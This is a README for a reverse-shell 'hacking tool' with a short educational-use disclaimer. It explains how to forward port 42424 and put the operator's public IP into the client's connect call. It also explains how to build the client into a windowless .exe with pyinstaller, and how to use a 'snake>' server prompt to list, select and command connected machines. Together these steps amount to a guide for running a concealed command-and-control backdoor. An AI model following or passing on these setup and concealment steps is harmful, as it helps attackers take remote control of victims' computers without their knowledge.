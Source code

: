 ![](http://myspecialsite.host20.uk/Icon%20image.png)
***
## Overview
This is a hacking tool to get a reverse shell.
This is tool is for educational purpose only!
The responsibility on every use of this tool is on the user only!

Disclaimer: This reverse shell should only be used in the lawful, remote administration of authorized systems. Accessing a computer network without authorization or permission is illegal. 
***
## Installation 
Type in the command line `pip install -r requirements.txt` to install all required modules
***
## How to use
Make sure that you have port forwading on port 42424 (you can change it if you want) to your computer.
Also make sure that you enable the port on your local firewall (inbound and outbound)
***
## Client
Make sure that you have you public IP address there on `s.connect((%PUBLIC IP ADDRESS%, 42424))`
***
## Convert client.py to .exe
Type in the terminal `pyinstaller -w --onefile "Multiple Clients/client.py"`.
Then you can delete the .spec file and the build folder.
The exe will be in "dist" folder.
 ***
## Using the tool
Start **server.py** using the following command:
`python3 server.py`
and wait for connection.

To see of all your connections type `snake> list` in the interacive prompt.

To send commands to one of your connections type `select` and the ID number of the connection.

E.X.:

`snake> select 0`

When you are in the reverse shell of one of your connection, you can type `getos` to see what OS is running on your connection machine.

To get a list of all the commands of the interactive prompt and other special commands, type `help` in the interactive prompt.

If you want to quit from your connection, type `quit` and then you'll be back in the interactive prompt.

If you want to quit from the entire program type `shutdown` in the interactive prompt.
